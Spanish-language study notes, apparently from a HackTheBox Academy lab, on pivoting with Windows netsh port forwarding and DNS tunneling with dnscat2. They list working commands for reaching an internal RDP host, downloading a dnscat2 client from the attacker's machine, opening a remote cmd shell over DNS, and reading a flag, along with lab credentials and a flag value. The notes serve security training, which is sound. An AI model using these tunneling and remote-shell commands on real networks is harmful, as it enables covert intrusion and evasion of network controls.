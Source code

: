 ## Port Forwarding with Windows Netsh 🥅

1. Nos conectamos a RDP de la Máquina de HackTheBox

   * **`xfreerdp /v:<IP Máquina> /u:htb-student /p:HTB_@cademy_stdnt!`**

2. Ahora, usaremos **netsh.exe** para realizar pivoting

   ```powershell
   PS C:\Windows\system32> .\netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5150
   PS C:\Windows\system32> netsh.exe interface portproxy show v4tov4

   Listen on ipv4:             Connect to ipv4:
   Address         Port        Address         Port
   --------------- ----------  --------------- ----------
   10.129.42.198   8080        172.16.5150     3389
   ```

3. Ahora ya nos podemos conectar a RDP de la máquina en la **subred**
   * **`xfreerdp /v:<IP Máquina>:8080 /u:victor /p:pass@123`**

   * **VendorContacts.txt**

      ```
      <SNIP>
      Jim Flipflop
      <SNIP>
      ```

## DNS Tunneling with Dnscat2 😸

1. Descargamos el archivo [dns2cat-powershell](https://github.com/lukebaggett/dnscat2-powershell.git), y creamos un servidor con Python para descargarlo en la Máquina Víctima

2. Ejecutamos `dns2cat`

   ```bash
   ❯ ruby dnscat2.rb --dns host=<tun0 -IP>,port=53,domain=inlanefreight.local --no-cache
   <SNIP>
   --secret=a43cc68aa424740a80dc653fbf4ab1a8
   <SNIP>
   ```

   * Nos conectamos a RDP y descargamos el archivo: `Invoke-WebRequest -Uri "http://<tun0 IP>:8080/dnscat2.ps1" -OutFile "C:\dnscat2.ps1"`
   * Ejecutamos el cliente en la Máquina Víctima: `Start-Dnscat2 -DNSserver <tun0 IP> -Domain inlanefreight.local -PreSharedSecret [--secret] -Exec cmd`

3. En nuestra Máquina de Atacante ya podremos crear una shell
   * **`window -i 1`**

   * Ahora leemos la flag: `exec (OFFICEMANAGER) 1> type C:\Users\htb-student\Documents\flag.txt`
     * **Output** `AC@tinth3Tunnel`

## SOCKS5 Tunneling with Chisel 🐣

